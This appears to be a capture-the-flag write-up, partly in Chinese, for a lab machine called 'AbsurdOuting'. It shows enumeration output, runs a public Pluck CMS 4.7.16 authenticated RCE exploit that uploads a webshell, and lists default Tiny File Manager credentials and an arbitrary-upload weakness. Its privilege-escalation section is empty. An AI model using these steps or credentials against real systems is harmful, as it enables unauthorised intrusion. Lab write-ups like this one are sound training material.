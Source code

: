# AbsurdOuting

## 信息收集

```bash
Detected ss and lsof, executing related commands...
Port: 33060, PID: 928
—> Command: /usr/sbin/mysqld 
Port: 3306, PID: 928
—> Command: /usr/sbin/mysqld 
Port: 53, PID: 637
—> Command: /lib/systemd/systemd-resolved 
Port: 22, PID: 836
—> Command: sshd: /usr/sbin/sshd -D [listener] 1 of 10-100 startups 
Port: 1337, PID: 818
—> Command: /usr/bin/socat TCP-LISTEN:1337,bind=127.0.0.1,FORK EXEC:/usr/bin/python2 /root/fight/main.py 

## ———————————————————————————— ##

Nginx is not installed.

## ———————————————————————————— ##

Detected apache, analyzing its configuration...

Unique Hosts:


## ———————————————————————————— ##

Checking /etc/sudoers (active configurations only):
  Defaults      env_reset
  Defaults      mail_badpass
  Defaults      secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"
  root  ALL=(ALL:ALL) ALL
  %admin ALL=(ALL) ALL
  %sudo ALL=(ALL:ALL) ALL
———
Finding SUID files:
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/mount
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
———
Finding files with special capabilities:
  /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
  /usr/bin/ping = cap_net_raw+ep
  /usr/bin/mtr-packet = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
———
Detected nginx or apache2 process running.
Found /var/www directory. Compressing it to web.zip...
bash: line 150: zip: command not found
Compression failed.
```

## Port 80 /pluck pluck 4.7.16

[Pluck CMS 4.7.16 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50826)

```bash
┌──(randark㉿kali)-[~/pocs]
└─$ python3 Pluck-CMS-Pluck-4.7.16-Theme-Upload-Remote-Code-Execution-Authenticated--POC.py 10.10.110.102 80 admin /pluck

Authentification was succesfull, uploading webshell

Uploaded Webshell to: http://10.10.110.102:80/pluck/data/themes/shell/shell.php
```

![img](img/image_20250449-194929.png)

## Port 80 /hotel HotelDruid version 3.0.3

版本过高，无漏洞信息

## Port 80 /tiny Tiny File Manager

默认凭据

```plaintext
admin/admin@123
user/12345
```

任意文件上传

![img](img/image_20250405-200532.png)

## 提权

```bash
```

